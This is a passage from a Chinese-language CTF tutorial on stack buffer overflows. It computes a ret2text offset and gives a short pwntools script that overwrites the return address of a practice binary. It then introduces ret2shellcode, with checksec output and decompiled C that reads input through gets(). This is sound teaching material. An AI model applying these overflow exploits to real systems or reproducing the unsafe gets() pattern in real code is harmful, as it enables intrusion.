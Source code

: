 可以看到 esp 为 0xffffcd40，ebp 为 0xffffcdc8 具体的 payload 如下 ，同时 s 相对于 esp 的索引为 [esp+0x1c]，所以，s 的地址为 0xffffcd5c，所以 s 相对于 ebp 的偏移为 0x6C，所以相对于返回地址的偏移为 0x6c+4。

最后的 payload 如下：

```python
##!/usr/bin/env python
from pwn import *

sh = process('./ret2text')
target = 0x804863a
sh.sendline('A' * (0x6c+4) + p32(target))
sh.interactive()
```

## ret2shellcode

### 原理

ret2shellcode，即控制程序执行 shellcode代码。shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。**一般来说，shellcode 需要我们自己填充。这其实是另外一种典型的利用方法，即此时我们需要自己去填充一些可执行的代码**。

在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。

### 例子

这里我们以 bamboofox 中的 ret2shellcode 为例  

点击下载: [ret2shellcode](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2shellcode/ret2shellcode-example/ret2shellcode)

首先检测程序开启的保护

```shell
➜  ret2shellcode checksec ret2shellcode
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

可以看出源程序几乎没有开启任何保护，并且有可读，可写，可执行段。我们再使用 IDA 看一下程序

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets((char *)&v4);
  strncpy(buf2, (const char *)&v4, 0x64u);
  printf("bye bye ~");
  return 0;
}
```
